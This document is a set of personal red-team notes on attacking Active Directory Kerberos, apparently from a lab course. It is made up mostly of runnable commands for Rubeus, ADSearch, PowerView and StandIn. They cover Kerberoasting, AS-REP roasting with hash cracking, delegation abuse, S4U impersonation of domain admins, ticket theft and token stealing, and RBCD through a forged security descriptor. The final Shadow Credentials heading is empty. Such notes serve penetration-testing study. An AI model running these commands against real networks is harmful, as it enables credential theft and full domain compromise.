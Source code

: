 # Kerberos notes

**Kerberoasting**

Request the TGS for services running under the context of domain accounts to crack offline

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /simple /nowrap
```

--format=krb5tgs --wordlist=wordlist hashes for john or -a 0 -m 13100 hashes wordlist 

```
john --format=krb5tgs --wordlist=wordlist mssql_svc
hashcat -a 0 -m 13100 hash wordlist
```

opsec consideration, query users first then roast them
```
execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=user)(servicePrincipalName=*))" --attributes cn,servicePrincipalName,samAccountName
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /user:<User> /nowrap
```

**ASREP Roast**

Users with no kerberos pre-auth can be requested and their can be cracked offline

This will start with a query then a roast
```
execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" --attributes cn,distinguishedname,samaccountname
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asreproast /user:<User> /nowrap
```

crack --format=krb5asrep --wordlist=wordlist squid_svc for john or -a 0 -m 18200 squid_svc wordlist for hashcat
```
john --format=krb5asrep --wordlist=wordlist hash
hashcat -a 0 -m 18200 hash wordlist
```

**Unconstrained Delegation**

A machine or user is allowed to act on the behalf of another with no restrictions

search for all computers with this
```
execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname
```

an example exploit of it being used to steal another users session by abusing a machine other users interact with
```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x14794e /nowrap
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:<user> /password:FakePass /ticket:doIFwj[...]MuSU8=
steal_token 1540
```

stealing TGT's by forcing them to auth to this machine we popped
```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /interval:10 /nowrap
execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe <target> <attacker owned listener>
```

**Constrained Delegation**

Similar to unconstrained but the delegation attempts to restrict services the server can act on behalf of a user

To find computers configured for constrained delegation, search for those whose  msds-allowedtodelegateto attribute is not empty.
```
execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=computer)(msds-allowedtodelegateto=*))" --attributes dnshostname,samaccountname,msds-allowedtodelegateto --json
```

To perform we need the TGT of the principal trusted for delegation, use Rubeus for this
```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e4 /service:krbtgt /nowrap
```

Now use S4U to obtain a TGS for CIFS for the DC for a domain admin, then run another S4UProxy ticket and pass it into a new logon session, and of course steal it's token
Make sure to always use the FQDN afterwards, or you will get errors
```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:<domain admin wanted to impersonate> /msdsspn:cifs/<DC domain name> /user:<current user with constrained delegation> /ticket:doIFLD[...snip...]MuSU8= /nowrap
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:<domain admin wanted to impersonate> /password:FakePass /ticket:doIGaD[...]ljLmlv
steal_token 5540
```

**Alternate Service Name**

The SPN information in the ticket is not encrypted and can be changed arbitrarily.  We can request a service ticket for a service, such as CIFS, but then modify the SPN to something different, such as LDAP, and the target service will accept it 
```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:<domain admin wanted to impersonate> /msdsspn:cifs/<DC domain name> /altservice:ldap /user:<current user> /ticket:doIFpD[...]MuSU8= /nowrap
```

**S4U2Self Abuse**

Rubeus being used to abuse the S4U2Self to obtain a usable TGS as a local admin user using the /self flag  
```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:<user> /self /altservice:cifs/<dc domain name> /user:<delegation user> /ticket:doIFuj[...]lDLklP /nowrap
steal_token <PID>
```

**Resource-Based Constrained Delegation**

This query will obtain every domain computer and read their ACL, filtering on the interesting rights
- WriteProperty
- GenericWrite
- GenericAll
- WriteDacl
```
powershell Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "WriteProperty|GenericWrite|GenericAll|WriteDacl" -and $_.SecurityIdentifier -match "S-1-5-21-569305411-121244042-2357301523-[\d]{4,10}" }
```

The common way of obtaining a principal with an SPN is to use a computer account. Steps:
1. get the SID
2. use this inside an SDDL to create a security descriptor.  The content of msDS-AllowedToActOnBehalfOfOtherIdentity must be in raw binary format.
3. Now use Set-DomainObjects in a one liner in CS to execute
4. use the computer account to perform a S4U impersonation with Rubeus
5. then pass the ticket

```
powershell Get-DomainComputer -Identity wkstn-2 -Properties objectSid
$rsd = New-Object Security.AccessControl.RawSecurityDescriptor "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;<SID>)"
$rsdb = New-Object byte[] ($rsd.BinaryLength)
$rsd.GetBinaryForm($rsdb, 0)
powershell $rsd = New-Object Security.AccessControl.RawSecurityDescriptor "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;<SID>)"; $rsdb = New-Object byte[] ($rsd.BinaryLength); $rsd.GetBinaryForm($rsdb, 0); Get-DomainComputer -Identity "<DC>" | Set-DomainObject -Set @{'msDS-AllowedToActOnBehalfOfOtherIdentity' = $rsdb} -Verbose
powershell Get-DomainComputer -Identity "<DC>" -Properties msDS-AllowedToActOnBehalfOfOtherIdentity
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e4 /service:krbtgt /nowrap
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:WKSTN-2$ /impersonateuser:nlamb /msdsspn:cifs/dc-2.dev.cyberbotic.io /ticket:doIFuD[...]5JTw== /nowrap
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIGcD[...]MuaW8=
steal_token <PID>
```

If you did not have local admin access to a computer already, you can resort to creating your own computer object
Tools used: [StandIn](https://github.com/FuzzySecurity/StandIn)
```
CS:
powershell Get-DomainObject -Identity "DC=dev,DC=cyberbotic,DC=io" -Properties ms-DS-MachineAccountQuota
execute-assembly C:\Tools\StandIn\StandIn\StandIn\bin\Release\StandIn.exe --computer EvilComputer --make
On Attacker machine:
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe hash /password:oIrpupAtF1YCXaw /user:EvilComputer$ /domain:dev.cyberbotic.io
CS:
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:EvilComputer$ /aes256:<aes key> /nowrap
```

**Shadow Credentials**



